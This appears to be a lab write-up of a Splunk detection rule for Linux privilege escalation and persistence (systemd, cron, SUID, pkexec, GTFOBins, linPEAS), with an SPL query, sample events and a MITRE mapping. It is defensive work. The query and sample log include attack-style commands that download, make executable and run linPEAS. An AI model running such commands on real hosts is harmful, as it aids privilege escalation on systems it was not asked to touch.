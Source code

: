 
# Detection Use Case: Linux Privilege Escalation & Persistence via Service, Cron, and Suspicious Binary Execution

## Scenario Description
Attackers aiming for persistence and privilege escalation on a Linux host often modify system services, cron jobs, or copy binaries to sensitive locations with elevated permissions (e.g., SUID bits). They may also execute privilege escalation enumeration tools like **linPEAS** or abuse tools like **pkexec** and GTFOBins.

This detection focuses on:
- Modifications to systemd service files or cron jobs
- Setting SUID bits on binaries
- Copying suspicious binaries into system executable paths
- Execution of linPEAS and other enumeration tools
- Usage of privilege escalation helper binaries (e.g., pkexec)
- GTFOBins exploitation patterns

---

## Objective
Detect potential privilege escalation and persistence attempts by monitoring suspicious command executions and file modifications related to Linux system services, cron jobs, and binaries.

---

## Tools Used
- **SIEM:** Splunk Enterprise
- **Log Sources:** Linux Syslog containing detailed process command lines and execution context

---

## Lab Setup
- Kali Linux VM running with Splunk Universal Forwarder forwarding syslog
- Splunk Enterprise hosted on a centralized logging server

---

## Data Source Mapping

| Field              | Example Value                      | Description                                  |
|--------------------|----------------------------------|----------------------------------------------|
| `_time`            | 2025-05-27 14:05:00              | Timestamp of the event                        |
| `host`             | kali                             | Hostname where the event was logged          |
| `User`             | root                             | User executing the command                    |
| `Image`            | /usr/bin/chmod                   | Binary executed                              |
| `CommandLine`      | chmod +x /lib/systemd/system/test.service | Full executed command line                  |
| `CurrentDirectory` | /lib/systemd/system              | Directory context of the execution            |
| `action_type`      | Modified Service File (echo)     | Categorized action derived from command line |
| `attack_type`      | Persistence via Service/Cron     | High-level attack category                     |
| `detection_type`   | System File Abuse or PE Attempt  | Type of detection                              |

---

## 🔎 SPL Query

```spl
index=linux_logs sourcetype=syslog ("systemd/system" OR "/etc/crontab" OR "/etc/cron." OR "/lib/systemd/system" OR "/usr/bin" OR "/usr/local/bin" OR "/bin" OR "/sbin" OR "pkexec" OR "LFILE=" OR "linpeas.sh" OR "wget" OR "curl")
| rex field=_raw "<Data Name=\"Image\">(?<Image>[^\<]+)</Data>"
| rex field=_raw "<Data Name=\"CommandLine\">(?<CommandLine>[^\<]+)</Data>"
| rex field=_raw "<Data Name=\"CurrentDirectory\">(?<CurrentDirectory>[^\<]+)</Data>"
| rex field=_raw "<Data Name=\"User\">(?<User>[^\<]+)</Data>"
| rex field=_raw "<Data Name=\"UtcTime\">(?<UtcTime>[^\<]+)</Data>"
| eval _time=strptime(UtcTime, "%Y-%m-%d %H:%M:%S.%3N")
| eval action_type=case(
    match(Image, "chmod") AND match(CurrentDirectory, "systemd|cron"), "Made Service Executable",
    match(CommandLine, "echo.*\.service.*>.*systemd"), "Modified Service File (echo)",
    match(CommandLine, "echo.*cron") OR match(CurrentDirectory, "/etc/cron."), "Modified Cron Job",
    match(CommandLine, "touch .*\.service") OR match(CommandLine, "nano .*\.service") OR match(CommandLine, "vi .*\.service"), "Created or Edited Service File",
    match(CommandLine, "chmod.*[ ]+[+]?4[0-7][0-7]") AND (match(CommandLine, "/usr/") OR match(CommandLine, "/bin") OR match(CommandLine, "/sbin")), "Set SUID Bit on Binary",
    match(CommandLine, "cp .* /usr/bin") OR match(CommandLine, "mv .* /usr/bin"), "Suspicious Binary Copied to SUID Path",
    match(CommandLine, "pkexec"), "pkexec Executed - Potential PrivEsc",
    match(CommandLine, "LFILE="), "GTFOBins Pattern Detected (LFILE variable)",
    match(CommandLine, "wget.*linpeas\.sh") OR match(CommandLine, "curl.*linpeas\.sh"), "Downloaded linPEAS",
    match(CommandLine, "chmod\s\+x\s.*linpeas\.sh"), "Made linPEAS Executable",
    match(CommandLine, "./linpeas\.sh"), "Executed linPEAS"
)
| where isnotnull(action_type)
| bin _time span=2m
| stats values(User) as User values(Image) as Image values(CommandLine) as CommandLine values(CurrentDirectory) as CurrentDirectory values(action_type) as action_type by _time, host
| eval attack_type=case(
    match(mvjoin(action_type, " "), "Service|Cron"), "Persistence via Service/Cron",
    match(mvjoin(action_type, " "), "SUID"), "SUID Abuse for Privilege Escalation",
    match(mvjoin(action_type, " "), "Binary Copied"), "Potential Privilege Escalation",
    match(mvjoin(action_type, " "), "pkexec"), "Privilege Escalation Attempt",
    match(mvjoin(action_type, " "), "GTFOBins"), "GTFOBins Exploitation Attempt",
    mvcount(action_type) >= 2, "linPEAS Execution Step",
    true(), "Other"
)
| eval detection_type=if(attack_type=="linPEAS Execution Step", "Privilege Escalation Enumeration", "System File Abuse or PE Attempt")
| table _time host User Image CommandLine CurrentDirectory action_type attack_type detection_type
```

---

## Alert
![Screenshot 2025-05-29 190421](https://github.com/user-attachments/assets/dd2c4f20-1c68-4cb0-ad5c-2b255ca62ea8)


## Log / Sample Event
| Time               | Host | User | Image        | CommandLine                                      | CurrentDirectory       | Action Type                   | Attack Type                     | Detection Type                    |
|--------------------|------|------|--------------|-------------------------------------------------|------------------------|------------------------------|---------------------------------|---------------------------------|
| 2025-05-27 14:05:00 | kali | root | /usr/bin/chmod | chmod +x /lib/systemd/system/test.service        | /lib/systemd/system     | Made Service Executable       | Persistence via Service/Cron    | System File Abuse or PE Attempt  |
| 2025-05-27 14:06:10 | kali | root | /usr/bin/wget  | wget http://example.com/linpeas.sh                | /root                   | Downloaded linPEAS            | linPEAS Execution Step          | Privilege Escalation Enumeration |
| 2025-05-27 14:07:15 | kali | root | /usr/bin/chmod | chmod +x linpeas.sh                               | /root                   | Made linPEAS Executable       | linPEAS Execution Step          | Privilege Escalation Enumeration |
| 2025-05-27 14:08:00 | kali | root | ./linpeas.sh   | ./linpeas.sh                                     | /root                   | Executed linPEAS              | linPEAS Execution Step          | Privilege Escalation Enumeration |

---

## ✅ Detection Status
Tested and verified in a Kali Linux lab environment with Splunk Universal Forwarder and Splunk Enterprise.

---

## 🧠 Analyst Notes / Recommendations
- Review service and cron modifications for legitimacy.
- Investigate SUID bit changes and suspicious binary placements.
- Track usage of pkexec and GTFOBins related commands.
- Monitor linPEAS downloads and executions closely as enumeration tools are common precursors to escalation.
- Be aware of false positives from legitimate admin operations or automated deployment scripts.

---

## 🔗 MITRE ATT&CK Mapping

| Technique ID | Technique Name                        | Description                                  |
|--------------|-------------------------------------|----------------------------------------------|
| T1543        | Create or Modify System Process     | Modifying systemd service files or cron jobs |
| T1548.002    | Abuse Elevation Control Mechanism: Sudo and Sudo Caching | Setting SUID bits for privilege escalation    |
| T1059.004    | Command and Scripting Interpreter: Unix Shell | Execution of shell scripts and enumeration tools |
| T1068        | Exploitation for Privilege Escalation | Using pkexec or other binaries to escalate privileges |

